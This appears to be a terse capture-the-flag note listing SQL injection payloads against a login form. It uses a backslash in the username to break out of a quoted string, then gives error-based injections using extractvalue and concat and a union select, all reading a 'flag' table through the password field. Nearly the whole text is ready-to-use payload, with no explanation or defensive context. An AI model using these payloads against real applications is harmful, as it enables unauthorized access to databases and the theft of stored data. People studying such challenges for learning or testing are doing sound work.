`username=\` to escape single-quote

- error based sqli
    `password=or extractvalue(1,concat(1,(select value from flag)));#`  
    `password=or extractvalue(1,concat(1,(select right(value,9) from flag)));#`

    `password=or extractvalue(1,concat((select value from flag)));#`

- normal sqli
    `password=union select value, 1 from flag;#`
